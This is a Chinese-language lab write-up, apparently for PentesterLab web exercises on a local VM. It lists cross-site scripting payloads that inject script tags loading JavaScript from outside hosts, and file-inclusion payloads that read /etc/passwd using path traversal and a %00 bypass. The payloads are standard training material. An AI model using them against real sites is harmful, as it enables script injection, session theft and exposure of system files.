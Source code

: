 ## Example 6

这回代码是插在`<script>`里面, 没做啥过滤
payload:
```
http://192.168.56.102/xss/example6.php?name=script";s=document.createElement($a);s.src="http://xxx/template/alert.js";document.getElementsByTagName( "head" )[0].appendChild(s);//
```

## Exmple 7

...过滤了双引号。。不过和上题有差？
```
http://192.168.56.102/xss/example7.php?name=script';s=document.createElement($a);s.src='http://xxx/template/alert.js';document.getElementsByTagName( 'head')[0].appendChild(s);//
```

## Example 8

这题改成POST了，然后直接输出，把尖括号编码了。。能艹？上次SSCTF也有类似的题，可是是通过框架来日。。所以看了下源码。。
```
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST">
```

好了，有了这句就能艹了。。原来不是用POST

payload:
```
http://192.168.56.102/xss/example8.php/"><script src=http://xxx/template/alert.js></script>
```

## Example 9

这题貌似看浏览器啊。。用firefox会自动帮你urlencode，用chrome成功了。。
```
http://192.168.56.102/xss/example9.php#<script src=http://xss.lazysheep.cc/template/alert.js></script>
```

# File Include
## Example 1

很简单。。没做任何过滤
```
http://192.168.56.102/fileincl/example1.php?page=/../../../../etc/passwd
```

## Example 2

也简单，就是会在名字后面自动加上`.php`，用%00可以bypass
```
http://192.168.56.102/fileincl/example2.php?page=/etc/passwd%00
```
